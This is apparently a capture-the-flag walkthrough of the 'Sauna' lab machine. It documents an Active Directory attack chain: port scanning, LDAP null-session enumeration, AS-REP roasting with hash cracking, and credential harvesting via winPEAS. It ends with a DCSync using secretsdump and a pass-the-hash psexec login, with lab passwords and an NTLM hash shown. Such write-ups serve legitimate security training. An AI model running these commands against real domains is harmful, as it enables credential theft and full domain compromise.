

# Sauna 

### Enum 

Enum open ports

```bash
# Nmap 7.94 scan initiated Mon Sep 25 05:19:19 2023 as: nmap --min-rate=3000 -sS -oN nmap.init -v -n -p- 10.129.101.211
Increasing send delay for 10.129.101.211 from 0 to 5 due to 11 out of 24 dropped probes since last increase.
Nmap scan report for 10.129.101.211
Host is up (0.22s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49719/tcp open  unknown
```

Enum versions


`sudo nmap --min-rate=3000 -sVC -oN nmap.version -v -n -p53,80,88,135,139,389,445,464,593,636,5985,9389,49667,49673,49674,49677,49698,49719 10.129.101.211`

```bash
# Nmap 7.94 scan initiated Mon Sep 25 05:28:57 2023 as: nmap --min-rate=3000 -sVC -oN nmap.version -v -n -p53,80,88,135,139,389,445,464,593,636,5985,9389,49667,49673,49674,49677,49698,49719 10.129.101.211
Nmap scan report for 10.129.101.211
Host is up (0.22s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-25 20:29:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-25T20:29:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 25 05:30:39 2023 -- 1 IP address (1 host up) scanned in 101.47 seconds
```


#### Enumeration web site

Searching on the website, we found that there is a user directory, and due to the open ports, it's possible that these users are registered in the Active Directory.

  

Username List:

```txt
Fergus Smith
Shaun Coins
Sophie Driver 
Bowie Taylor 
Hugo Bear 
Steven Kerb 
```


#### Enumerando DNS

Noting

  


#### Enumeration LDAP

First Getting the namingcontext in ldap.

```bash
ldapsearch -H ldap://10.129.101.211 -x -s base namingcontexts
```

```bash
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

From this LDAP query, we obtain the DNS of the controller, and then proceed to add it to the **/etc/hosts** file.

We perform an enumeration with a null session from the Naming context.

```bash 
ldapsearch -H ldap://10.129.101.211 -x -s base namingcontexts| grep 'namingcontexts:'  > namingcontexts
```

```bash
for i in $(cat namingcontexts | cut -d " " -f 2); do 
ldapsearch -x -H ldap://10.129.101.211 -D '' -w '' -b $i;
done
```

Next, we retrieve additional usernames for the user dictionary with the null sessions.

  


## Explotación

We are searching for accounts that have pre-authentication disabled. To do this, we generate valid users from our potential usernames dictionary.

Use the tool **Username Generator**:

[AD Username Generator](https://github.com/mohinparamasivam/AD-Username-Generator.git)


`python3 username-generate.py -u /home/kali/Sauna/usernames_register -o /home/kali/Sauna/usernames_register.permutados`

  

Verify if any employee has the pre-autentication disabled.

```bash 
for nombre in $(cat usernames_register.permutados); do          
  /usr/bin/impacket-GetNPUsers egotistical-bank.local/${nombre} -no-pass;
done
``` 

And find another a user **fsmith** that he have the pre-autentication disabled.

  

Then, we apply brute force to the krb5asrep ticket to obtain the credentials of fsmith.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.fsmit`


fsmith:Thestrokes23


  


### Privilege Elevation


Using winpeas an execute, getting this information:

The user svc_loanmanager has their credentials stored in Winlogon.

  


```bash
EGOTISTICALBANK
EGOTISTICALBANK\svc_loanmanager
Moneymakestheworldgoround!
```

svc_loanmanager:Moneymakestheworldgoround!


We search her name in the local machine is **svc_loanmgr**

  


Then the username and password is: 

svc_loanmgr:Moneymakestheworldgoround!


  


## Enumeracion de permisos.


Execute Bloodhound remote.

```bash
bloodhound-python -u svc_loanmgr -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -ns 10.129.101.211 -c All
```

  


Running the Bloodhound GUI.


`sudo neo4j console`
`bloodhound`

Then found a insecure permission.

  


Exploit the DCSync

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc svc_loanmgr:Moneymakestheworldgoround\!@10.129.101.211 -outputfile dcsync.hash
```

  


Getting the admin with pass the hash.

```bash
/usr/share/doc/python3-impacket/examples/psexec.py EGOTISTICAL-BANK.LOCAL/administrator@10.129.101.211 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

Rooting

  
